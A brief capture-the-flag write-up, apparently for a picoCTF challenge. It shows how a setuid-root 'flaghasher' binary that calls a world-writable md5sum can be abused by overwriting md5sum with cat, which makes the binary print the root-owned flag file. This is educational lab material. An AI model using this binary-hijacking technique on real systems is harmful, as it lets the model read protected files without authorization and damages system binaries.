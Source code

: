 We SSH into the server and immediately run `ls`. 
```bash
ctf-player@pico-chall$ ls -la
total 24
drwxr-xr-x 1 ctf-player ctf-player    20 Mar 28 02:19 .
drwxr-xr-x 1 root       root          24 Mar  6 03:44 ..
drwx------ 2 ctf-player ctf-player    34 Mar 28 02:19 .cache
-rw-r--r-- 1 root       root          67 Mar  6 03:45 .profile
-rwsr-xr-x 1 root       root       18312 Mar  6 03:45 flaghasher
```
There's a binary called flaghasher that gives us an MD5 Hash of our flag. I used `strings flaghasher` to see if maybe the flag is hardcoded in the binary (unfortunately wasn't), but I found an interesting line: `/bin/bash -c 'md5sum /root/flag.txt'`.

Looks like its using md5sum to calculate the hash. Running `which md5sum` reveals that the binary is at `/usr/bin/md5sum`. Running `ls -l /usr/bin/md5sum` shows the permissions -rwxrwxrwx , meaning we have access to modify this binary.
```bash
ctf-player@pico-chall$ ls -la /usr/bin/md5sum
-rwxrwxrwx 1 root root 47480 Sep  5  2019 /usr/bin/md5sum
```
I can replace this binary using `cat /usr/bin/cat > /usr/bin/md5sum` and now `md5sum` would behave like `cat`. Running flaghasher now will instead print the contents of `/root/flag.txt` instead of it's hash.